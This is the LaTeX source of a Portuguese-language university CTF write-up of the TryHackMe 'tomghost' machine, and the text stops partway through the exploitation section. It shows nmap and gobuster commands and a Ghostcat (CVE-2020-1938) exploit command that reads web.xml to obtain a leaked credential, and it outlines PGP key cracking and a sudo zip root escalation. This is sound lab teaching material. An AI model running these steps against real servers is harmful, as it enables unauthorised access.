%==============================================================================
% Write-Up de CTF - tomghost (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{tomghost}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{29/10/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%------------ Caixa de "becos sem saida" (tentativas sem sucesso) --------------
\definecolor{deadendbg}{RGB}{255,248,240}
\definecolor{deadendframe}{RGB}{193,108,44}
\newtcolorbox{becosemsaida}[1][Tentativas sem sucesso (becos sem saída)]{%
  enhanced, breakable,
  colback=deadendbg, colframe=deadendframe,
  colbacktitle=deadendframe, coltitle=white,
  boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\small,
  title={#1}%
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \today \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{tomghost} é uma máquina Linux de dificuldade \emph{fácil} que roda um
\textbf{Apache Tomcat 9.0.30}. A varredura expõe SSH (22), DNS (53) e,
principalmente, o conector \textbf{AJP (8009)} ao lado do Tomcat (8080). A
enumeração web não leva a nada (o \emph{manager} retorna 403); o vetor real é o
AJP, vulnerável ao \textbf{Ghostcat} (\textbf{CVE-2020-1938}), que permite
\textbf{ler arquivos} internos da aplicação. Lendo \texttt{/WEB-INF/web.xml}
obtém-se uma \textbf{credencial vazada} (\texttt{skyfuck}) em um comentário de
descrição, usada para entrar via SSH. No \emph{home} de \texttt{skyfuck} há uma
\textbf{chave privada PGP} (\texttt{tryhackme.asc}) e um arquivo cifrado
(\texttt{credential.pgp}); quebra-se a \emph{passphrase} da chave com
\texttt{gpg2john}+\texttt{john} e, após importar a chave e decifrar o arquivo,
obtém-se a credencial de \texttt{merlin} --- que fornece a \emph{flag} de usuário.
A escalada é trivial: \texttt{merlin} pode executar \texttt{/usr/bin/zip} como
\texttt{root} sem senha, permitindo \emph{shell escape} via GTFOBins. Fluxo:
reconhecimento (Nmap) $\rightarrow$ Ghostcat/AJP (leitura de \texttt{web.xml})
$\rightarrow$ SSH \texttt{skyfuck} $\rightarrow$ quebra de chave PGP + decifragem
$\rightarrow$ SSH \texttt{merlin} $\rightarrow$ \texttt{sudo zip} $\rightarrow$
\texttt{root}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
\begin{lstlisting}[language=bash,caption={Varredura inicial e detecção de versão com Nmap.}]
nmap -T4 <TARGET_IP>
nmap -sV -sC -p22,53,8009,8080 <TARGET_IP>
\end{lstlisting}

Quatro portas abertas. A detecção de versão confirma \textbf{OpenSSH 7.2p2}, o
conector \textbf{AJP13} em 8009 e o \textbf{Tomcat 9.0.30} em 8080 --- a
combinação de Tomcat com AJP exposto é o indício central do desafio.

\begin{lstlisting}[style=output,caption={Portas e serviços identificados.}]
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
53/tcp   open  domain     (tcpwrapped)
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{nmap.png}
  \caption{Varreduras Nmap: quatro portas abertas e detecção de versão
  confirmando OpenSSH 7.2p2, AJP13 (8009) e Apache Tomcat 9.0.30 (8080).}
  \label{fig:nmap}
\end{figure}

\subsection{Enumeração web}
A enumeração de \texttt{http://<TARGET\_IP>:8080/} com Gobuster só encontra as
aplicações padrão do Tomcat; o \emph{manager} e o \emph{host-manager} exigem
autenticação (403) e nenhum conteúdo útil aparece.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.9\linewidth]{tomcatserver.png}
  \caption{Página inicial padrão do Apache Tomcat 9.0.30 em
  \texttt{http://<TARGET\_IP>:8080/}.}
  \label{fig:tomcatserver}
\end{figure}

\begin{lstlisting}[language=bash,caption={Enumeração de diretórios com Gobuster.}]
gobuster dir -u http://<TARGET_IP>:8080 -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
\end{lstlisting}

\begin{lstlisting}[style=output,caption={Apenas aplicações padrão do Tomcat.}]
docs          (Status: 302) [--> /docs/]
examples      (Status: 302) [--> /examples/]
host-manager  (Status: 302) [--> /host-manager/]
manager       (Status: 302) [--> /manager/]
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{gobuster.png}
  \caption{Gobuster na porta 8080: apenas as aplicações padrão do Tomcat
  (\texttt{docs}, \texttt{examples}, \texttt{manager}, \texttt{host-manager}).}
  \label{fig:gobuster}
\end{figure}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Tentei explorar o \emph{Tomcat Manager}: todas as rotas de gerência e
        segurança retornam 403 sem credenciais. A enumeração de diretórios não
        trouxe nada aproveitável --- o caminho não é o HTTP (8080), e sim o
        conector AJP (8009).
\end{itemize}
\end{becosemsaida}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Ghostcat (CVE-2020-1938) via AJP}
O conector AJP exposto em 8009 é vulnerável ao \textbf{Ghostcat}
(\textbf{CVE-2020-1938}): uma falha de \emph{inclusão/leitura de arquivos} que
permite ler recursos dentro da aplicação Tomcat sem autenticação. Usa-se o
\emph{exploit} público de \texttt{00theway} para ler \texttt{/WEB-INF/web.xml}.

\begin{lstlisting}[language=bash,caption={Leitura de WEB-INF/web.xml via Ghostcat.}]
# https://github.com/00theway/Ghostcat-CNVD-2020-10487
python3 script.py http://<TARGET_IP>:8080/ 8009 /WEB-INF/web.xml read
\end{lstlisting}

O \texttt{web.xml} contém, em sua descrição, uma \textbf{credencial em texto
claro} (senha mascarada conforme a metodologia):

\begin{lstlisting}[style=output,caption={Credencial vazada no web.xml.}]
<description>
   Welcome to GhostCat
      skyfuck:<PASSWORD>
</description>
\end{lstlisting}

\begin{figure}[H]
  \centering
